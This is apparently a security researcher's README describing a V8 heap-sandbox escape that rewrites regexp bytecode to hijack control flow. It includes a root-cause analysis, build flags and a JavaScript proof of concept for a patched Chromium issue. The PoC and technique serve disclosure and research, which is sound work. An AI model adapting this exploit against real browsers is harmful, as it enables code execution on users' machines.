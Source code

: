 # V8 Sandbox Escape via Regexp

This technique achieves arbitrary code execution by modifying and interpreting the bytecode of a `regexp` object. I used it to claim V8CTF M122, M123, and blood Maglev in PlaidCTF.

Issue: [330404819](https://issues.chromium.org/issues/330404819)

Affected: < Chrome M125

## RCA

When attackers have the ability to perform out-of-bounds (OOB) read and write operations in the heap sandbox, they can modify `data` field of `regexp` object, which stores the address of bytecode. In the `IrregexpInterpreter::Result RawMatch` function, the bytecode is read and interpreted. Many bytecodes are related to `register` operations, but the `register`s are located on the stack and lack boundary checks (only `DCHECK`). By modifying the bytecode, it is possible to achieve OOB write on the stack and hijack the control flow.

The workflow proceeds as follows: First, generate bytecode using `regex.exec`. Next, modify the bytecode array in data to execute arbitrary bytecode, ensuring to mark tier-up to guarantee the reuse of our malicious bytecode instead of regenerating it. Finally, execute our malicious bytecode again using `regex.exec` on the same string.

Since I could only find a way to move and set registers, I decided to form a ROP chain to get a shell. If there's a way to push RWX addresses onto the stack, it should be possible to achieve direct arbitrary code execution.

This was fixed in commit `b9349d97fd44aec615307c9d00697152da95a66a`.



## Reproduce

The `exp.js` works with debug build of commit `1fd3f98c07afc527a68ee15a9e0d6869defec2a9`.

build flags:

```
is_debug = true
v8_static_library = true
target_cpu = "x64"
v8_enable_sandbox = true
v8_enable_memory_corruption_api=true
```

Use `--sandbox-fuzzing` to enable `Sandbox` at runtime.

The exploit uses `push` and `pop` bytecodes for copying registers, `set` for adding constants on stack and `advance` for calculations.

Poc here hijacks control flow to `0x4141414141414141`, which can be verified via gdb since `--sandbox-fuzzing` will ignore memory violation issues. This should function effectively on other builds, as the offset has been consistently observed to remain unchanged.

```js
// Flags:  --sandbox-fuzzing
let s = "aaaaa";

var sbxMemView = new Sandbox.MemoryView(0, 0xfffffff8);
var addrOf = (o) => Sandbox.getAddressOf(o);

var dv = new DataView(sbxMemView);

var readHeap4 = (offset) => dv.getUint32(offset, true);
var readHeap8 = (offset) => dv.getBigUint64(offset, true);

var writeHeap1 = (offset, value) => dv.setUint8(offset, value, true);
var writeHeap4 = (offset, value) => dv.setUint32(offset, value, true);
var writeHeap8 = (offset, value) => dv.setBigUint64(offset, value, true);

var regex = /[a-zA-Z0-9]*[a-zA-Z0-9]*[a-zA-Z0-9]*[a-zA-Z0-9]*[a-zA-Z0-9]*[a-zA-Z0-9]*/g;
let addr_regex = addrOf(regex);
let data_addr = readHeap4(addr_regex + 0xc);

regex.exec(s);
let bytecode = readHeap4(data_addr + 0x1b);
writeHeap4(data_addr + 0x2f, 2);

let arr = [];

function set_reg(idx, value) {
    arr.push((idx << 8) & 0xffffff00 | 0x08);
    arr.push(value);
}

function success() {
    arr.push(0x0000000e);
}

let idx = 0x52;
set_reg(idx++,0x41414141);
set_reg(idx++,0x41414141);
success();

for (var i = 0; i < arr.length; i++) {
    writeHeap4(bytecode + 0x7 + 4 * i, arr[i]);
}

regex.exec(s);
```
